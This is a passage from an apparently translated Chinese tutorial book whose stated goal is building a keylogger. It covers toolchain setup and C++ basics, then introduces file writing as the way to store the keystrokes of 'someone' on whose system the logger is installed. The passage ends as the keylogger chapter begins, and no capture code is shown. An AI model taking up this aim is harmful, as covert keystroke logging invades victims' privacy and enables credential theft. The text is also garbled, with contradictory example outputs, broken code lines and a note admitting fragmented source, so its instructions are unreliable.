

我们还需要在`32`位或`64`位操作系统选项之间进行选择，取决于你的电脑运行的是哪种系统，右键点击“此电脑”或“我的”，然后点击“属性”。这些步骤将显示你的系统规格。在确定系统运行的位数后，继续下载与之兼容的`Eclipse`文件。

下载完成后，下载的文件将默认位于你的下载文件夹中，除非你更改了它的位置。我们需要解压该文件，因为它是`zip`压缩格式的。

在解压并安装`Eclipse`文件后，尝试运行它将显示一条错误消息，说明`Eclipse`在没有`Java`运行时（`JRE`）或`Java`开发工具包（`JDK`）的情况下无法工作。这完全不是问题，因为我们只需要回到互联网并下载一个`JDK`。最新版本的`JDK`通常带有`JRE`。

## 我们可以直接在 Google 上搜索“Java development kit”并点击指向 Oracle 网站的链接，在其中我们可以进行所需的下载。



在网站上，我们拥有许多不同操作系统和不同系统位数的`JDK`程序，从适用于`Linux`系统的`JDK`到适用于`Mac OS Solaris`的`JDK`等。然而，正如我们所知，我们感兴趣的是适用于`Windows`操作系统的`JDK`。因此我们继续下载，并确保它符合我们的系统位数（`32`位或`64`位）。

### Java Development Kit 7u9

你必须接受`Oracle`二进制代码许可才能下载此。

| 产品 / 描述 | 文件大小 | 下载 |
| :--- | :--- | :--- |
| `Linux x86` | `123.45 MB` | `jdk-7u9-linux-x86-bin` |
| `Linux x64` | `131.68 MB` | `jdk-7u9-linux-x64-bin` |
| `Windows x86` | `146.10 MB` | `jdk-7u9-windows-x86-bin` |
| `Windows x64` | `199.89 MB` | `jdk-7u9-windows-x64-bin` |
| `Mac OS X` | `256.00 MB` | `jdk-7u9-mac-bin` |
| `Solaris x64 (archive package)` | `96.10 MB` | `jdk-7u9-solaris-x64-bin` |
| `Solaris SPARC (archive package)` | `24.98 MB` | `jdk-7u9-solaris-sparc-bin` |


| Solaris SPARC 64 (archive package) | 235.24 MB | `jdk-7u9-solaris-sparc64-bin` |
| Solaris SPARC | 118.05 MB | `jdk-7u9-solaris-sparc-bin` |
| Windows | 138.11 MB | `jdk-7u9-windows-bin` |
| Windows (archive package) | 166.11 MB | `jdk-7u9-archive` |

1. 导航到文件管理器（快捷键：`windows + E`），右键点击“此电脑”或“我的电脑”，在显示的下拉菜单中点击“属性”。



2. 点击“高级设置”，然后从弹出的菜单中点击“环境变量”，向下移动到“系统变量”并随机选择一个。

3. 在键盘上按下“P”键，你将重定向到“Path”。

现在我们来编辑它。默认路径将如下所示：`%systemRoot%...` 如图中更完整的格式所示。（地址仅在记事本中显示是为了放大查看，你不需要将路径也放在记事本中）。我们要在默认路径中添加内容。

4. 在已有的地址后添加 `C:\mingw\bin;`，使其看起来与图中所示。避免对路径进行任何其他更改，否则尝试运行 `Eclipse` 时会遇到错误消息。



5. 根据提示多次点击“确定”，最后点击“应用”，JDK 路径即设置完成。

诚然，我们已经完成了几次下载，应该进入正题了：制作我们的键盘记录器。但等一下，我们不是漏掉了什么吗？我们当然漏掉了！

我们有一个虚拟机，所有关于键盘记录器的操作将在那里进行。我们有一个 `Eclipse`，用于编写所有的代码，我们还有 JDK，它将允许我们在系统上运行 `Eclipse`。我们缺少的是一个编译器，它可以将我们编写的 C++ 代码翻译成计算机系统可以理解的机器语言。

不要浪费时间，我们可以从 `www.mingw.org` 下载编译器，尽管还有其他可以下载的网站。不过，`MinGW` 非常直观。

### MinGW

Windows 下 `MinGW` 和 `MSYS` 项目的家园，一个用于原生 Microsoft Windows 应用程序的最小化开发环境。

`MinGW` 提供了一个开源软件编程工具，适用于原生 MS-Windows 应用程序的开发，并可在 Windows、Linux 和 OS X 等许多操作系统运行。它包含了 C C++ 库。此外，用它创建的多线程应用程序将使用原生 Windows 线程运行。

`MinGW` 提供了对微软运行时和 `wine` 二进制规范的功能访问。`MinGW` 作为原生 Windows 编译器环境，允许你在 MS-Windows 上开发原生 Windows 应用程序和 POSIX 应用程序。你也可以使用 `Cygwin` 在此平台上运行 POSIX 应用程序。

主要针对在原生 MS-Windows 平台上工作的开发人员，但也适用于托管使用（见下文注释 - 正确配置可能很棘手）。

- GNU 编译器集合 (GCC) 的一部分，包括 C、C++ 和 Fortran 编译器；

- 包含 Windows 版 `Binutils`（汇编器、链接器、`gdb`）；

- 包含部署在 MS-Windows 上的 `MinGW` 和 `MSYS` 的 GCC4 前端（`make`、`grip` 等其他）；

- 一个首次运行设置脚本 (`mingw-get`)，让你能够开始使用 `mingw-get` 运行。

`MSYS` 是一个类 POSIX 环境，是 `MinGW-dll` 的替代方案，它提供了一个通用的环境，特别适合配合 `MinGW` 使用于许多开源项目。它为 Windows 平台提供了工具（`Cygwin` 的轻量级分支），并包含了一些为了方便操作而选择的小工具。

点击右上角的下载按钮开始下载编译器。再次强调，编译器将是压缩格式，就像我们之前下载的 JDK 一样，通过将任何内容提取到你选择的位置来解压。最后，安装编译器。

现在，有了变量路径、JDK 和编译器，我们可以舒服地启动 `Eclipse` 环境而不会出现任何错误消息，并放心地编写代码，确定它们会被计算机解释，我们将

## 第12 章.设置 Eclipse 环境

启动 `Eclipse` 时，会显示一个欢迎界面，提供 `Eclipse` 环境之旅。如果你恰好喜欢实用指南，可以继续，否则请关闭它。在欢迎信息之后，`Eclipse` 会显示一个很小的默认程序，编译后它将打印“hello world”。不要担心这些代码初看起来看起来有多复杂，随着我们的进展，一切都会迎刃而解，你会发现编码只是轻而易举的事。



*紫色、蓝色和绿色文本的行被称为“代码”。我们很快就能玩转它们。

字体 设置编码环境的步骤：

- 1. 关闭默认程序。我们可以通过点击屏幕左侧项目的 'x' 按钮来实现。

- 2. 点击左上角的“File”，选择“New”，然后选择“C++ project”，因为我们想创建一个 C++ 环境。

- 3. 为你想创建的项目起一个恰当的名字，例如 `Keylogger`、`Calculator`、`Mary Jane`，任何名字都可以。

- 4. 在“Project type”下选择“Empty Project”。

- 5. 点击“Finish”。

现在环境已经设置好，我们可以开始编写代码。在下一节中，我们将创建一个新的 C++ 文件并编写我们的第一个程序。

### 如何运行代码

现在环境已经设置好，我们可以开始编写代码。在下一节中，我们将创建一个新的 C++ 文件并编写我们的第一个程序。

它们被认为是不同的。例如，`boy != BOY`

（其中 `!==` 表示不等于）

-   它不能是一个保留字

**保留字。** 保留字或关键字是对 C++ 编译器具有特殊含义的词汇。一些 C++ 关键字是：`double`、`asm`、`break`、`operator`、`static`、`void` 等。

要声明一个变量，必须先给它指定一个名称和用于存储数据的数据类型。例如：

`Int a;` 其中 'a' 是一个标识符，类型为整型（integer）。

C++ 有几种数据类型，每种数据类型都有其特定的功能。下面列出了各种数据类型：

-   **Int:** 这些是小整数，例如：

-   **Long int:** 大整数

-   **Float:** 小的实数

-   **Double:** 这些是带有小数点的数字，例如 20.3, 0.45

-   **Long double:** 很大的实数

-   **Char:** 单个字符

-   **Bool:** 布尔值。它可以取两个值之一：`true` 或 `false`

## 理解代码语句

当我们第一次启动 `Eclipse` 并收到欢迎欢迎语时，不久后我们看到了一个默认程序，如果按照之前学过的步骤运行，它将显示“Hello World。”让我们来看看该默认程序中用绿色、紫色和红色编写的代码的功能以及它们是如何运行的。

```cpp
#include <iostream>
using namespace std;

int main() {

}
```

**#include**: `#include` 语句是调用库中的语句将其包含到正在编写的程序中。库可以被看作是一个房间，里面存放了许多预先写好的代码，我们可以随时利用它们。它减轻了我们在编码时必须编写每一个可能需要的单项内容的压力。

**<iostream>**: 这是一个库文件，包含某些函数，这些函数使我们能够使用某些命令。其中一些命令包括：`Cout` 和 `Cin`。

**Cout**: 这是一个将编写代码的结果输出显示给计算机用户的命令。例如，如果你编写了一个向用户提问的程序，`Cout` 语句将使问题对用户可见。

**Cin**: 该语句是一个用于接收用户输入的命令。例如，如果你编写了一个收集不同人员生物识别信息的程序，`Cin` 命令将使你的程序能够接收计算机用户键入的信息。

解释 `Cin` 和 `Cout` 语句的一个很好的例子是计算器。`Cin` 允许计算器接收你的输入，`Cout` 则向你显示答案。

-   `//` 双斜杠是注释行。这意味着它之前的特定行将不会被考虑在。它被代码编写者用来解释某行代码的作用，可能是为了他自己的记忆，也为了可能与他的代码合作的其他程序员。我们还有多行注释。由一个单斜杠和一个星号符号组合在一起（`/*`）。它的功能与单行注释一样，但所编写的语句可以超过单行。

## 示例：

单行注释：`//生活不是一条顺风的路。`

多行注释：`/*玫瑰是红色的，紫罗草是蓝色的，

大多数诗都押韵，但这首没有。*/`

## 第 14 章：一个典型的程序

下面的图显示了一个简单的程序，旨在要求用户输入两个独立的值，并将其打印出来。让我们逐步分析代码的每一行，理解每一行的含义。


```cpp
#include <iostream>
using namespace std;

int main() {
    int a = 10, b = 20;
    double c = 10.3, d = 60.234;

    cout << "Enter the values for a and b" << endl;
    cin >> a >> b;
    cout << "Value of a: " << a << endl << "Value of b: " << b;

    return 0;
}
```

输入 `a` 和 `b` 的值

`10 20`

`a` 的值: `10`

`b` 的值: `20`

现在，让我们来过一下实际的代码行，其中比较语句与一些条件语句一起使用。

```cpp
int main() {
    int a, b;
    double c = 10.3, d = 60.234;

    if (a == b && c != d) {
        cout << "I will not sleep";
    }
    else {
        cout << "I will fight against sleep";
    }

    return 0;
}
```

你已经看到上面代码的逻辑了吗？

基本上，第 9 行表示，如果变量 `a` 中包含的值与 `b` 中的值相同，且 `c` 中的值不等于 `d`，则将显示“I will not sleep”语句。然而，如果这些条件中有任何一个为假（例如 `a` 不等于 `b` 或 `c` 等于 `d`），那么第 15 行的“I will fight against sleep”语句将被打印出来。

第 15 行编写的 `else` 是一个条件语句，就像在现实世界中一样，意味着如果第 9 行的条件求值为假，则跳过第 11 行的语句，并考虑后面的另一个条件。

如果用 `OR` 语句代替 `else` 语句，将意味着第 9 行的条件中只要有一个为真（要么 `a == b`，要么 `c != d`），第 11 行的语句就会被考虑，而第 15 行则被忽略。

通过学习不同程序的一系列代码将增强理解，从长远来看，会让你熟悉这些操作符、它们的各种功能以及如何使用它们。

通过在我们之前分析的程序中添加一些新语句并逐逐步解释它们，我们对 C++ 编码的理解将大大提高。一旦实现这一点，制作键盘记录器（`Keylogger`）的过程对你来说将毫不费力。

让我们分析下面的程序：

| 行号 | 代码 |
| :--- | :--- |
| 7 | `double c = 10.3, d = 60.234;` |
| 8 | |
| 9 | `cout << "Enter value for a: ";` |
| 10 | `cin >> a;` |
| 11 | `cout << "Enter value for b: ";` |
| 12 | `cin >> b;` |
| 13 | |
| 14 | `if( a > b )` |
| 15 | `{` |
| 16 | `cout << "A is greater than B";` |
| 17 | `}` |
| 18 | `else if( a == b )` |
| 19 | `{` |
| 20 | `cout << "A is equal to B";` |
| 21 | `}` |

从第 1 行到第 7 行是熟悉的代码，因此已被省略。

在第 9 行和第 11 行中使用了 `cout` 函数，并将打印语句“Enter value for a: ”和“Enter value for b: ”（注意两个句子末尾、冒号与结束语句的引号之间的空格。请记住它的用途）。在第 10 行和第 12 行中使用了 `cin` 函数，它需要计算机用户输入一个值。一旦程序要求用户输入了两个值，程序将根据第 14 行的条件语句进行求值，如果结果为真，程序将按照第 16 行的指示打印“A is greater than B”。

在第 18 行，条件语句 `else if` 是一种用在 `if` 和 `else` 语句之间的条件语句。它用于添加几个其他条件，如果所有条件求值均为假，则将打印 `else` 语句下的行。正如在这个程序中使用那样，如果条件 `a > b` 为假，则将打印 `else` 语句下的行——“A is less than B”；除非 `else if` 条件为真，此时将打印“A is equal to B”。

```cpp
if( a > b ) {
    cout << "A is greater than B";
} else if( a == b ) {
    cout << "A is equal to B";
} else {
    cout << "A is less than B";
}
return 0;
```

`Enter value for a: 1`

`Enter value for b: 3`

`### A is less than B`

从上面写的代码可以看出，用户为变量 `a` 输入了值 1，为变量 `b` 输入了值 3。这些值不满足第 14 行的条件，也不满足第 18 行的条件，因此考虑了 `else` 语句。第 24 行的语句“A is less than B”被打印。

### 循环（Loops）

C++ 中的循环可以看作是一个圆形路径，条件语句在其中循环评估，直到满足所需的条件或提供了逃生路径。让我们分析一个使用循环的程序。有几种循环，如 `While` 循环、`For` 循环。让我们从 `While` 循环开始。

```cpp
{
    cout << "Enter value for a or enter -1 to exit: ";
    cin >> a;
    cout << "Enter value for b or enter -1 to exit: ";
    cin >> b;
}

if( a > b) {
    cout << "A is greater than B";
} else if( a == b ) {
    cout << "A is equal to B";
} else if( a == -1 || b == -1) {
    break;
} else {
    cout << "A is less than B";
}
```

（注：由于原始文本存在大量重复和碎片化的片段，以上翻译根据逻辑流进行了整合与修正。）

```cpp
cout << endl << "Enter value for b or enter -1 to exit: ";
cin >> b;
if ( b == -1 )
    break;

if( a > b)
{
    cout << "A is greater than B " << b;
} else if( a == b )
{
    cout << "A is equal to B " << i;
} else
{
    cout << "A is less than B " << i;
}
ni++;
```

在第 35 行，`i++` 是一个自增语句，它仅仅意味着每次循环完成后都会给 `i` 的值加 1。它也可以写成 `i = i + 1;`；然而，`i++` 更简洁，也是大多数人的用法。

`i` 被添加到每个条件语句的末尾，因此在每个循环之后都会显示完成的循环次数。

### For 循环 (For Loop)

`For` 循环的功能与 `While` 循环基本相同。它们的相似之处在于两者都能让程序以迭代的方式运行。然而，它们之间的区别在于在程序中的利用方式。

```cpp
{
  int a, b;
  double c = 10.3, d = 60.234;

  for (int i=0; i<3; i++) {
    cout << endl << "Enter value for a or enter -1 to exit: ";
    cin >> a;
    if (a == -1) {
      break;
    }

    cout << endl << "Enter value for b or enter -1 to exit: ";
    cin >> b;
    if (b == -1) {
      break;
    }

    if (a > b) {
      cout << "A is greater than B " << i;
    }
  }
}
```

从上面的图中可以看出，`for (int i=0; i<3; i++)` 仅仅意味着变量 `i` 被赋值为 `int` 类型的数据并初始化为零。`i < 3; i++` 指令程序持续运行（记录完成循环的次数），直到 `i` 比 3 小 1，即程序只会运行两次。此外，值得注意的是，由于自增是在 `for` 循环后的括号内进行的，该自增仅对该块内的程序（第 10 行到 25 行）有效。

### 使用数学运算符 (Utilizing the Math Operators)


# 概述

如所述，C++ 世界中的数学运算符与现实世界中的没有区别。让我们看看如何使用这些运算符，特别是结合 `float` 和 `double` 等其他数据类型使用，因为我们目前为止一直在处理整数。我们还将看到为什么某些数据类型无法存储某些值（小数或整数）。

```cpp
#include <iostream>
using namespace std;

int main() {
    int a = 5, b = 2;
    double c = 10.3, d = 60.2343;
    float e = 0.232333;

    cout << "A=5 divided by B=2 :: " << a/b;

    return 0;
}

// int x = 10.252225
```

在上述程序的第 6、7 和 8 行，值被赋值给类型为 `int`、`double` 和 `float` 的变量。这些赋值的值符合变量类型。

在第 10 行执行了一个简单的除法操作，即 `a/b`。当程序运行时，打印出的答案是 `2`。你可能会开始怀疑世界上所有的数学是否都是错的，因为计算机先生从不犯错。然而，你是对的，计算机先生这次搞错了！结果求得为 2，是因为变量 `a` 和 `b` 是整数类型，而整数无法存储小数值，因此它只打印整数部分。

```cpp
// Logger.cpp
1 #include <iostream>
2 using namespace std;
3
4 int main(){
5 {
6     int a = 5, b = 2;
7     double c = 10.3, d = 60.234;
8     float e = 0.23233;
9
10    cout << c/d;
11
12    return 0;
13 }
```

如果变量 `a` 和 `b` 是 `float` 或 `double` 类型，结果将完整打印出来，即整数部分和小数部分，如下所示。

在上述程序的第 10 行，执行了一个与之前相似的除法操作。但在这次特定操作中，值被赋值给 `double` 类型变量（`c = 10.3, d = 60.234`）。可以看出，运行程序后，打印出的答案是 0.171。答案带有小数部分是因为赋值的变量类型是 `double`。

到目前为止，我们一直在学习 C++ 的基础知识，预计现在你已经能够编写一个简单的程序了，也许是一个“Hello world”程序。但是，如果仍然某些某些某些理解或无法真正掌握，不要恐慌，因为随着我们编码的进行，你一定能上手的。

## 函数 (Functions)

函数是组合成单一整体的代码组，用于执行特定功能。我们在这里说的函数与我们通常在代码开头编写的普通 `main` 函数相似，但它们位于 `main` 函数之下。我们还可以在 `main` 之外创建函数，稍后在 `main` 中调用它们。

我们需要函数是因为我们需要将特定的块或家族分组以执行特定的功能。例如，假设我们需要一个函数来对一组数字进行加、减、除法，多次编写代码来执行这些算术操作将非常困难。然而，可以编写一个执行所需算术操作的函数，并在每次需要时在 `main` 函数中调用它。

```cpp
#include <iostream>
using namespace std;

double Sum(double a, double b);

int main() {
    cout << "The sum of 3 and 5 is: " << Sum(3, 5);
    return 0;
}
double Sum(double a, double b) {
    return a+b;
}
```

### 示例输出

3 和 5 的和是: 5

让我们通过实例来让函数的创建和使用变得清晰得多。通常，上面的程序中创建的函数用于接收输入。在括号内，声明了函数。

3 和 5 的和是: 5

目前我们先来看看它的语法，由于它有一个完整的背景，如果我们在运行它之后会导致我们偏离轨道。随着我们的学习，你将会了解更多。

```cpp
6 Welcome(string x);
7
8 int main()
9 {
10 string x;
11 cout << "The sum of 3 and 5: " << Sum(3, 5) << endl;
12 cout << "Enter whatever you like";
13 getline(cin, x);
14 cout << Welcome(x);
15 return 0;
16 }
17
18 double Sum(double a, double b)
19 {
20 return a+b;
21 }
22
23 string Welcome(string x)
24 {
25 return x;
26 }
```

3 和 5 的和是: 8

输入什么我在这里，还是我在瞎猜！

这里有几个新知识点，基本上是第 13 行的 `getline` 语句。目前我们先来看看它的语法，由于它有一个完整的背景，如果我们在运行它之后会导致我们偏离轨道。随着我们的学习，你将会了解更多。

还有第 22 行所示的 `string` 变量类型。`String` 类型用于包含空格和大量的字母。事实上，到课程为止打印到显示窗口的所有语句都可以被 `string` 存储。

```cpp
char c = 'a';
cout << c;
return 0;
```

为了让我们知道，上面的小图只是为了引入一种新的变量类型，我们以后一定会会用到。该变量类型是 `char`。这种变量类型持有字符，例如美元符号，或者像上面第 13 行的单个字母。它通常与单引号配合。

最后，让我们进入 `指针 (pointers)` 和 `文件 (files)`，之后我们将开始编写键盘记录器的代码。

## 指针 (Pointers)

```cpp
#include <iostream>
using namespace std;

int main()
{
    int num = 10;
    int *ptr;
    ptr = &num;

    cout << num << " : " << ptr;

    return 0;
}
```

基本上，指针不仅在 C++ 中，在其他编程语言中也用于显示变量的内存位置。让我们分析这个小程序，帮助我们理解指针是如何使用的。

从 1 行到第 6 行的作用与我们之前编写的代码中的作用相同。在第 9 行声明了一个 `int` 类型的变量。由于指针会显示变量的内存位置，因此必须有一个声明了其位置的变量。在第 10 行，声明了指针。这是通过使用变量类型（与要建立位置的变量相同），后面紧跟一个星号 `*`，最后是指针名称完成的。指针可以有任何名称，上面的程序使用了 `ptr`。

现在，在第 9 行，告诉指针指向变量 `num`。这是通过输入指针名称 (`ptr`) 并将其等于取地址符 (`&`) 和变量名 (`num`) 且中间没有空格来实现的。在第 13 行，写了一个 `cout` 语句来输出 `num`（我们之前将其设置为值 10）和 `ptr`，后者将显示 `num` 的内存位置。如上图所示，运行代码时，它会显示 `num` 中的值 (10) 以及变量的内存位置 (0x28ff18)。

注意第 13 行，如果我们想让指针在控制台上打印变量中包含的值，我们只需在 `ptr` 之前加一个星号，如下图所示。

```cpp
cout << num << " : " << *ptr;
return 0;
```

## 文件 (Files)

我们可能会问，到底为什么我们需要文件？嗯，如果我们我们需要一个键盘记录器（Keylogger），我们就必须知道如何使用文件，因为如果在某个人的系统上安装了键盘记录器，我们将用户的按键记录存储在文件中。如果用户输入 ABC，它应该被写入某个文件。

我们需要知道如何仅用 C++ 向文件写入内容。这是一个非常简单的过程，一点也不复杂。事实上，它与复制和粘贴非常相似。我们只需要做：

- 在 `#include<iostream>` 下方输入 `#include <fstream>`，这样我们就能写入文件。

- 像第 8 行一样创建一个输出流并给它一个名称。输出流是通过直接写入 `ofstream` 并添加你选择的任何名称创建的。在第 8 行，输出流的名称是 `write`。注意必须指定路径，否则它将位于你的项目文件夹中。



要找到默认路径，根据你的系统设置，点击“PC”或“我的电脑”，点击“本地磁盘”，然后点击“用户”。点击你当前正在使用的用户名。

找到“工作空间（Work space）”并点击它



在“工作空间”中，寻找你的 C++ 项目名称并点击它。如果你将项目命名为 Keylogger，你应该寻找 Keylogger。



保存的按键记录默认会在 Keylogger 文件夹内。


让我们指定文件路径，以便将我们想要获取的按键发送到精确位置。

```cpp
#include <iostream>
#include <fstream>
using namespace std;
int main() {
    ofstream write("C:\\Users\\Creator\\OUR_FILE.txt");
    write << "";
    return 0;
}
```

在第 8 行文件创建语句前的括号内，包含你期望的路径。在上面的程序中，`C:\Users\\Creator\\OUR_FILE` 是选定的路径，存储的按键将流向 `OUR_FILE`（文件名）并存储在那里。完成此操作，你的文件名就形成了，并指定了路径。

### 写入你的文件 (Writing to your File)

为了写入你的文件，换句话说将输入发送到你创建的文件，在某一行上写下你的文件名（在上面的程序中：`write`），方法与你使用 `cout` 打印语句相同，即：

`write << "......";`

```cpp
int main() {
    ofstream write("C:\\Users\\Creator\\OUR_FILE.txt");
    write << "windows is awesome I like working in it. I like all the freedom that I have in it";
    return 0;
}
```

## 第16章. 基础键盘记录器

制作键盘记录器首先需要的是 `#include <windows.h>` 和 `#include <Winuser.h>` 头文件，因为我们需要其中一些需要这些头文件的函数。

